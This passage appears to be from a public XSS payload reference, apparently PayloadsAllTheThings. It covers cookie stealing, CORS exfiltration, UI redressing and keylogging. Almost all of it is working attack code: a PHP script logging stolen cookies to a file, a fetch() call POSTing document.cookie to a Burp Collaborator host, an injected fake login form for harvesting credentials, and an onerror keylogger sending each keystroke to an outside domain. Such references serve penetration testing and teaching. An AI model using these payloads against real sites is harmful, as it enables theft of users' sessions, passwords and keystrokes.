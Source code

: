 Write the collected data into a file.

```html
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
```

### CORS

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#cors)

```html
<script>
  fetch('https://<SESSION>.burpcollaborator.net', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
  });
</script>
```

### UI Redressing

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#ui-redressing)

Leverage the XSS to modify the HTML content of the page in order to display a fake login form.

```html
<script>
history.replaceState(null, null, '../../../login');
document.body.innerHTML = "</br></br></br></br></br><h1>Please login to continue</h1><form>Username: <input type='text'>Password: <input type='password'></form><input value='submit' type='submit'>"
</script>
```

### Javascript Keylogger

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#javascript-keylogger)

Another way to collect sensitive data is to set a javascript keylogger.

```js
<img src=x onerror='document.onkeypress=function(e){fetch("http://domain.com?k="+String.fromCharCode(e.which))},this.remove();'>
```

### Other Ways

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#other-ways)
